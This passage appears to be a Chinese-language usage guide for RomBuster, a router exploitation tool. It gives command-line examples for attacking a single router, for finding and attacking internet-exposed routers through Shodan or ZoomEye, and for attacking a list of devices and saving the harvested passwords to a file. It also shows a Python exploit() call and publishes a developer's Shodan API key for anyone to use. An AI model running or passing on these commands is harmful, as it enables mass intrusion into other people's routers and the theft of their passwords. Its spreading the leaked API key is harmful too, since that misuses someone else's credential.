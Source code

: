 ```
                        提供单个地址

  --shodan SHODAN       通过网络利用远程设备所使用的Shodan API密钥

  --zoomeye ZOOMEYE     通过网络利用远程设备所使用的ZoomEye API密钥

  -p PAGES, --pages PAGES

                        需要通过ZoomEye获取的页面数量
```

**工具使用样例**
----------

### 攻击单个路由器

下列命令可以攻击单个网络路由器：

```
rombuster -a 192.168.99.1
```

### 通过网络攻击远程路由器

接下来，我们可以使用 Shodan 搜索引擎来搜索并攻击网络上的由器：

```
rombuster --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

注意：项目中给出的 Shodan API 密钥（PSKINdQe1GyxGgecYz2191H2JoS9qvgD）是开发人员自己的专业版 API 密钥，你可以使用你自己的密钥，当然了你想用开发人员的也没意见，大家资源共享嘛！

### 从输入文件获取目标路由器

我们还可以使用开放数据库中提供的摄像头地址：

```
rombuster -i routers.txt -o passwords.txt
```

注意：此命令将会攻击 routers.txt 中给出的所有摄像头，并会将所有获取到的密码存储至 passwords.txt 文件中。

**API 使用**
----------

RomBuster 还提供了自己的 Python API，可以将其导入至你们自己的项目代码中并调用其功能：

```
from rombuster import RomBuster
```

### 基础函数

下面给出的是 RomBuster 支持的基础函数，可以用于利用指定路由器中的安全漏洞：

> exploit(address)：攻击指定地址的单个路由器
